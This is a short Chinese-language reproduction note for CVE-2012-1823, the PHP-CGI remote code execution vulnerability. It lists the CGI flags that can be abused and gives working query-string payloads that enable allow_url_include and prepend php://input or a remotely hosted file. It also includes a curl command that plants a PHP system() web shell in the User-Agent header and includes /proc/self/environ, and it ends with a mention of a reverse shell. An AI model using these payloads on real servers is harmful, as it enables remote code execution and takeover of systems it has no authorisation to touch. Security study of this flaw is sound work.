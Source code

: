 （CVE-2012-1823）PHP-CGI远程代码执行漏洞
========================================

一、漏洞简介
------------

二、漏洞影响
------------

php \< 5.3.12 or php \< 5.4.2

三、复现过程
------------

cgi模式下有如下可控命令行参数可用：

-   `-c` 指定php.ini文件（PHP的配置文件）的位置
-   `-n` 不要加载php.ini文件
-   `-d` 指定配置项
-   `-b` 启动fastcgi进程
-   `-s` 显示文件源码
-   `-T` 执行指定次该文件
-   `-h`和`-?` 显示帮助

​ 那么最简单的利用方式就是`-s`可以直接显示源码![1.png](./.resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId24.png)-d参数好像就文件包含吧

### payload:

    -d+allow_url_include%3don+-d+auto_append_file%3dphp://input
    需要注意的是 =要用%3d(url编下码) 空格用+号代替或者%20
    -d+allow_url_include%3don+-d+auto_prepend_file%3dphp://input
    上面两种都行只不过一个在页面顶部加载文件一个是页面底部加载文件


     
    auto_prepend_file 在页面顶部加载文件

    auto_append_file  在页面底部加载文件 

![2.png](./.resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId26.png)远程包含:

payload:

    -d allow_url_include%3don+-d+auto_prepend_file%3dhttp://ip/1.txt

![3.png](./.resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId27.png)

本地包含:

payload:

    curl -H "USER-AGENT:<?php echo system($_GET["hk"]);?>" url -d auto_prepend_file%3d/proc/self/environ+-n

这里介绍下/proc/self/environ在文件包含中的作用

    如果服务器已过响应时间，还可以通过LFI重新利用，包括存储在User_Agent的/proc/self/environ文件，我们将把我们的PHP代码放置其中用于执行CMD命令 

我们可以把php代码放进user-agent里然后进行本地包含

但是我这里用bp修改user-agent不知道为什么不行 (一直显示超时)

![4.png](./.resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId28.png)

不过我们还是可以进行本地包含的 使用curl来完成

payload:

    curl -H "USER-AGENT:" https://www.0-sec.org:8080/index.php?-d+auto_prepend_file%3d/proc/self/environ+-n -o xxx.txt

![5.png](./.resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId29.png)

当然也可以使用之前提到的反弹shell
